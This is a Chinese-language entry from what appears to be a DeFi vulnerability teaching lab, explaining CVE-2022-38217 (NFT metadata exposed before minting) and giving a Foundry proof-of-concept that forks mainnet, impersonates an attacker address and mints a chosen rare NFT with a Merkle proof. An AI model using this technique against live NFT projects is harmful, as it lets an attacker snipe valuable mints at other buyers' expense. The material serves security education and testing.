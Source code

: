 # 通过暴露的元数据铸造NFT
[NFTMint_exposedMetadata.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/NFTMint_exposedMetadata.sol)  
**名称：** NFT通过暴露的元数据进行铸造的漏洞  
**描述：**  
该合约容易受到CVE-2022-38217的影响，这可能会导致项目中所有NFT的元数据提前披露。  
因此，攻击者可以找到有价值的NFT，然后通过监控mempool来瞄准特定 NFT的铸造，并在二级市场上出售NFT以获取利润。  
问题是元数据是在铸造完成后才能可见的  

**参考：**  
https://twitter.com/Supremacy_CA/status/1596176732729769985  
https://medium.com/@Supremacy_Official/evilreveal-cve-2022-38217-a-nuclear-weapon-level-generic-vulnerability-buried-under-the-nft-5112724dabb  

**合约：**  

```
contract ContractTest is DSTest {
    IFantasticWeslie nftContract =
        IFantasticWeslie(0xf6FFBa463e46087FcdC3a51391bB675B0e2C1a40); // 神奇的韦斯利（一种类型的狗）

    CheatCodes cheats = CheatCodes(0x7109709ECfa91a80626fF3989D68f67F5b1DD12D);

    bytes32[] merkleTreeProof;

    function setUp() public {
        cheats.createSelectFork("mainnet", 16023847);
    }
}
```  
**如何测试：** 
forge test --contracts src/test/NFTMint_exposedMetadata.sol-vvvv  


```
function testExploit() public {
        //由于合约容易受到CVE-2022-38217的影响
        //这可能会导致项目中所有NFT的元数据提前公开
        //因此，攻击者可以找到有价值的NFT，然后通过监控Mempool来瞄准铸造指定的NFT，并在二级市场上出售NFT以获取利润

        //例如，假设攻击者发现NFT#142是一种罕见的NFT，现在他只需监控内存池，直到NFT#141被铸造，然后再铸造NFT#142
        //通过cURL查看NFT的元数据 -> curl -k https://bafybeic23x4v75z7isyqhy5p6ylzqutm6lnpobwngaouovdu6qjjvt4wpu.ipfs.dweb.link/142.json
        //问题是元数据只有在铸造完成后，才能可见

        //以太坊上的交易- 0xfa4434236d2a9717e3410d7cdc60eed6acfddb054f58bc779c07349a1f45ce6b
        //以太坊上的交易 - 0x24af97355f6cec4ae02fff8bbf7144a02857e3ffd36a650aa295c62f6272cc83

        address attacker = 0x1fCebBb5D3EACd26e70b0BD1E54a979a479906aA;
        cheats.prank(attacker);

        merkleTreeProof.push(
            0x0ea49bae9ab4f8b82fb0e0b5e876576c9a4a945edc2fa5a7b448fad470802ae6
        );
        merkleTreeProof.push(
            0x852233af3700b87dc51f6abf53d4f935746d746d84a33d4d7e6302d9c110fedd
        );
        merkleTreeProof.push(
            0x5de513269badb3a0b73e237a9f28f86994791f4421effd1865df975a0f8ee52c
        );
        merkleTreeProof.push(
            0xe52d780f15394a8f6254f328ca06a66909c41f1ee3adab33d02cd087f8c37604
        );
        merkleTreeProof.push(
            0xede88505e4259ab482a1019cc8d4364cf9e1e7866768245854c0f6e369d2b08c
        );
        merkleTreeProof.push(
            0x776fee48d9285a8e2d1ecde47354e9ebe91b10f0b5f2d754968af831a7047808
        );
        merkleTreeProof.push(
            0x3d13c4757d9e35123b8785040c29f232483941fb7d591b1a94167c1ca5e8875f
        );
        merkleTreeProof.push(
            0xc36c091c358833709f1b6f44e783e5d9ad5ad9f5f0ee09a37c376fd354827fb1
        );
        merkleTreeProof.push(
            0xce26991b2af9fc0fb807aea36667d37439ae7122d3ea8edcbfe92b04bf674922
        );
        merkleTreeProof.push(
            0x8452c207732923a758c53fb296f3d88340a04fe9c381c73ba44343a45340953e
        );
        merkleTreeProof.push(
            0xcc44822b3b5a19839899f6795622daff3bab327895558977ea58a30a42c6a49e
        );
        merkleTreeProof.push(
            0x45c575962e5a88b5e8c3aedf4e3e74306d0124f4cc86c25bc4cd1bcae16c54a0
        );

        nftContract.mint{value: 0.12 ether}(merkleTreeProof);

        console.log("Owner of NFT#142 : ", nftContract.ownerOf(142));
    }  
 ```

 ![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fae9db374-5202-4b32-872c-c34689b977ec%2FUntitled.png?table=block&id=7c2373ef-3082-4eb1-bb2c-3e270899cb6b&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=1430&userId=&cache=v2)


